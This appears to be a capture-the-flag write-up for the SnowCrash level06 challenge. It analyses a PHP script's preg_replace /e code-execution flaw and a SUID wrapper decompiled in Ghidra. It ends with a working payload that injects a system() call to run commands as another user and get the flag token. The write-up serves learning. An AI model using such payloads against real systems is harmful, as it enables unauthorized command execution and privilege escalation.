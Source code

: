 # Level06

Two noticeable files are present in home directory of the `level06` user. A `level06` binary file and a `level06.php` **PHP** script. The **SUID** bit is set on the `level06` binary and owner is user `flag06`.

## The level06.php script
While inspecting the file with the `cat` command, we can observe that the code is not well formated.
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

For a better reading we can pass the script trough a online formating tool such as [Code Beautify](https://codebeautify.org).
 
```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;

?>
```

The script consists of two function definitions. Both make usage of `preg_replace()`.

#### The preg_replace() function
The function takes three arguments. The first one is a **regular expression**, the second, a value to **substitute the matches** and the third one is the value that is to be treated. Strings or arrays can be passed as arguments.  
  
If the substitute is PHP code, the `e` modifier permits it's execution when substituting a match. The substitute becomes the return value of the PHP code if there is a return value.  
  
**Note:** To limit security issues, `preg_replace()` escapes single and double quotes characters.

#### The user defined functions
**x($y, $z)**
This function is called with two arguments `$y` and `$z`. It stores the file contents corresponding to the path supplied via `$y` in `$a`. Then three calls to `preg_replace()` are made but the one that looks interesting is the first one with the `e` modifier.

The altered output is then returned. Another thing to notice is that the second argument is never used.

**y($m)**
This function is called with only one argument `$m`. The argument is processed trough two `preg_replace()` calls and is then returned. 

## The level06 binary
It is a good idea to try to pass the file trough **Ghidra's** code browser and inspect the main function.

```c
undefined4 main(undefined4 param_1,int param_2,char **param_3)
{
  int iVar1;
  char **__envp;
  __gid_t __rgid;
  __uid_t __ruid;
  char *local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  undefined4 local_24;
  undefined *local_18;
  
  __envp = param_3;
  iVar1 = param_2;
  local_18 = (undefined *)&param_1;
  local_2c = strdup("");
  local_28 = strdup("");
  if (*(int *)(iVar1 + 4) != 0) {
    free(local_2c);
    local_2c = strdup(*(char **)(iVar1 + 4));
    if (*(int *)(iVar1 + 8) != 0) {
      free(local_28);
      local_28 = strdup(*(char **)(iVar1 + 8));
    }
  }
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  local_34 = "/usr/bin/php";
  local_30 = "/home/user/level06/level06.php";
  local_24 = 0;
  execve("/usr/bin/php",&local_34,__envp);
  return 0;
}
```

Some interesting lines are found. A call to the `execve()` function is made with `/usr/bin/php` as the executable and `level06.php` as its argument. We can deduct that our script is ran trough the PHP interpreter when the `level06` binary is exectued.

## The attack
#### Summary of interesting things  
- The SUID bit is set on the `level06` binary and the owner is `flag06`.  
- A call to `preg_replace()` with the `e` modifier is made and PHP code execution is possible within the regular expression.  
- We can pass arguments to the program, and they are accessible within the scope of the `x($y, $z)` function.  
  
#### Backreference access  
Contents of regular expression groups can be accessed via the `\N` (where **N** is a number) notation.  
  
#### PHP complex curly syntax  
This syntax permits to include complex expressions in strings. It is noted with `{$ }` surrounding the expression. The expression will first be evaluated, then inserted in the string.  
  
Knowing all this information, we know that we need to make a file with a matching string to the first vulnerable call to `preg_replace()` with `e` modifier. Our goal is to call the `getflag` command with the user `flag06`'s privileges.  
  
Inserting a call to `system()` function with `getflag` as parameter can be a valid option.  
  
The regular expression `/(\[x (.*)\])/e` consists of two capture groups:  
1. Any string starting with `[x ` and ending with `]`  
2. Any string containing any character `.` in any amount `*`  
  
The substitute is a call to the `y($m)` function where `$m` is a backreference to the second capture group. The match to the second capture group needs to be the expansion of a PHP command. The expanded value will be ran trough the rest of the code and be printed on `stdout`.
  
We first need to write the payload in a file and pass it as an argument to `level06`. The `/tmp` folder is writable. The payload consists of a matching string to the first regular expression encountered. The second capture group is a complex PHP curly syntax containing the call to the `system()` function.  
  
**Note**: Variables in scope are accessible. To evade the quote filtering, we can pass the string `getflag` trough the unused `$z` parameter wich is `argv[2]`. Quote escaping seems to occur before variable expansion.

```
level06@SnowCrash:~$ echo '[x {${system($z)}}]' > /tmp/infile && ./level06 /tmp/infile 'getflag'
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

It is also possible to omit the quotes and wite directly `echo '[x {${system(getflag)}}]' > /tmp/infile && ./level06 /tmp/infile`. PHP will assume it was quoted and correct it itself.
